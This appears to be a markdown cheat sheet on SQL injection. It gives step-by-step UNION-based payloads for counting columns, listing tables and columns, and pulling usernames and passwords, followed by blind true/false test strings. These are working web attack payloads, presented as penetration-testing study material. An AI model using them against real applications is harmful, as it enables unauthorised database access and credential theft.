 <br>

#### SQLi UNION Technique Example

* This technique works if the results of the query are being returned in the response, if not Blind techniques will have to be used.


* First, we need to determine how the application responds to a valid vs invalid query.  With this information we will be able to determine whether our injected payloads are valid or invalid.

<br>

1. **Determine how many columns are in the original query.**  The number of "nulls" injected needs to be adjusted ( On Oracle databases, every SELECT statement must specify a table to select FROM, default table is dual ):

```
' union select null, null--
```

2. **Determine which of those columns return String data:**

```
' union select 'Test', null--
```


3. **Extract table names from the database:**

```
' union select table_name, null from information_schema.tables--
```


4. **Extract column names from those tables:**

```
' union select null,column_name from information_schema.columns where table_name = 'users'--
```

<br>

**Retrieve multiple values in a single column:**

```
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```


<br><br><br>

#### SQLi Blind Conditional Responses Examples

* Identify if the below payloads result in a notable difference in the responses.  The key here is to know how the application responds to a true statement (1=1) vs a false statement (1=2):

    * ' and '1'='1

    * ' and '1'='2

    * ' and 1=1--

    * ' and 1=2--
